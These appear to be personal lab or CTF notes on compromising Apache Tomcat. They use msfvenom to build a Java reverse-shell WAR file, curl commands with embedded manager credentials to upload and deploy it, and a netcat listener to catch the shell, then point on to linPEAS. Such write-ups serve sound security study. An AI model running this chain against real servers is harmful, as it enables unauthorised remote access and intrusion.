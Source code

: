 ## What is a `.war` file?

A `.war` file* stands for **Web Application Archive** — it’s the Java equivalent of a **.zip** or **.jar** file, but used specifically for **deploying web apps on servers like Apache Tomcat**.

- It contains Java classes, configuration files, and web resources (like HTML, JSP, etc.).
    
- Web servers such as **Apache Tomcat**, **JBoss**, or **GlassFish** can **deploy** `.war` files directly.
    
- When deployed, it becomes an accessible web application under a URL path like: `http://<server>:8080/shell/`


## msfvenom

#Attacking_machine 
1. Generated a WAR payload with `msfvenom`.
```
msfvenom -p java/shell_reverse_tcp LHOST=<ATTACKING MACHINE IP> LPORT=443 -f war > shell.war
```

| Part                        | Explanation                                                        |
| --------------------------- | ------------------------------------------------------------------ |
| `msfvenom`                  | The payload generator (part of Metasploit).                        |
| `-p java/shell_reverse_tcp` | Payload type — a **Java reverse shell** that connects back to you. |
| `LHOST=MACHINE IP           | Your local IP (where the reverse connection will come to).         |
| `LPORT=443`                 | The port on your machine to receive the shell.                     |
| `-f war`                    | Output format = **WAR web app file** (deployable on Tomcat).       |
| `> shell.war`               | Save the generated payload as `shell.war`.                         |

2. Upload the file `shell.war` to the Tomcat Server.
```
curl -u 'webdev':'Hgj3LA$02D$Fa@21' -T shell.war 'http://<MACHINE IP>:8080/manager/text/deploy?path=/shell.war'
```

![[Screenshot_2025-10-16_05-26-25.png]]

3. Check the file has been uploaded.
```
curl -u 'webdev':'Hgj3LA$02D$Fa@21' http://<MACHINE IP>:8080/manager/text/list
```

![[Screenshot_2025-10-16_05-31-50.png]]

4. Open a netcat listener on the attacking machine.
```
nc -lnvp 443
```

5. Deploy the file.
```
curl -u 'webdev':'Hgj3LA$02D$Fa@21' http://<MACHINE IP>:8080/shell.war
```

## What happens when it’s deployed

1. Deploy the WAR file as a web app.
    
2. Launch the payload (a Java servlet) when accessed.
    
3. The payload will **connect back to your LHOST:443** and open a **reverse shell**.
    

That means you’d get a remote shell on the netcat listener. .

![[Screenshot_2025-10-16_05-47-40.png]]

**Next step:** [[linPEAS]]